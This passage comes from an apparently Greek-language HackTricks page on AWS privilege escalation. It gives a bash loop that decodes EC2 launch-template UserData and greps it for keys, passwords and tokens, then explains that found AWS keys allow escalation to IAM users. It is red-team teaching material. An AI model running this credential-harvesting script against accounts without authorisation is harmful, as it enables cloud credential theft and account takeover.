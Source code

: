 {% code overflow="wrap" %}
```bash
for i in $(aws ec2 describe-launch-templates --region us-east-1 | jq -r '.LaunchTemplates[].LaunchTemplateId')
do
echo "[*] Analyzing $i"
aws ec2 describe-launch-template-versions --launch-template-id $i --region us-east-1 | jq -r '.LaunchTemplateVersions[] | "\(.VersionNumber) \(.LaunchTemplateData.UserData)"' | while read version userdata
do
echo "VersionNumber: $version"
echo "$userdata" | base64 -d
echo
done | grep -iE "aws_|password|token|api"
done
```
{% endcode %}

Στις παραπάνω εντολές, αν και καθορίζουμε ορισμένα μοτίβα (`aws_|password|token|api`), μπορείτε να χρησιμοποιήσετε μια διαφορετική regex για να αναζητήσετε άλλους τύπους ευαίσθητης πληροφορίας.

Υποθέτοντας ότι βρίσκουμε `aws_access_key_id` και `aws_secret_access_key`, μπορούμε να χρησιμοποιήσουμε αυτά τα διαπιστευτήρια για να αυθεντικοποιηθούμε στο AWS.

**Πιθανές Επιπτώσεις:** Άμεση κλιμάκωση προνομίων σε IAM χρήστη(ες).

## Αναφορές

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details><summary>Υποστήριξη HackTricks</summary></details>
{% endhint %}
